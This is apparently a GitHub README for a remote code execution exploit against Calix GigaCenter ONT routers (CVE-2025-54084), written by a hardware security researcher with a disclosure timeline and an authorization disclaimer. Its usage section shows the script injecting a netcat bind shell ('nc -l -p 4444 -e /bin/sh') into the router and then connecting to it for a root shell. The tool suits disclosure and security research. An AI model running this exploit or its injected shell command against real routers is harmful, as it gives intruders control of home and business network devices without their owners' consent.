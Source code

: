 # RCE-Calix-Gigacenter

![tool](tool.png)

Remote Code Execution (RCE) exploit targeting **Calix Gigacenter ONT routers**, specifically tested on the **Calix 844G-1** model. This exploit takes advantage of a zero-day vulnerability discovered in **February 2025**, now assigned as CVE-2025-54084. The affected routers are: Calix GigaCenter ONT 844E, 844G, 844GE, and 854GE. Finally, there are 4 more zero days discovered, if do you want to read more deatils about this RCE vulnerability and the another ones, check the post: https://revers3everything.com/calix-case-five-0-days-five-cves/

## ⚠️ Disclaimer
This tool is intended **only for educational and ethical hacking purposes**.  
Do not use it against any device without **explicit authorization**.  
The author is not responsible for any misuse.

## 🛠️ Installation

Only one dependency is required:

```bash
pip install requests
```

## How to Use

Run the exploit script:

```bash
python3 rce-calix-gigacenter.py
```

Once executed, the exploit will inject the following command into the vulnerable router:

```bash
nc -l -p 4444 -e /bin/sh &
```

You will see a message like:

```
Backdoor into the router, try to connect with netcat to the port 4444!
```

Then, connect to the reverse shell with `netcat`:

```bash
nc 169.254.1.2 4444
```

**Enjoy your shell!**

## Exploit Timeline

- **Zero-day discovered:** February 2025
- **CVE Public disclosure:** September 9 2025
[demo-exploit](final-rce-poc.webm)

## Author
**Danilo Erazo** (`@revers3vrything`)  
Hardware Security Researcher and Speaker at:
- Hardwear.io USA 2025
- DEFCON 32, DEFCON33
- Ekoparty 2024 & 2023
- Re//verse 2025, etc

© 2025 Danilo Erazo (@revers3vrything)
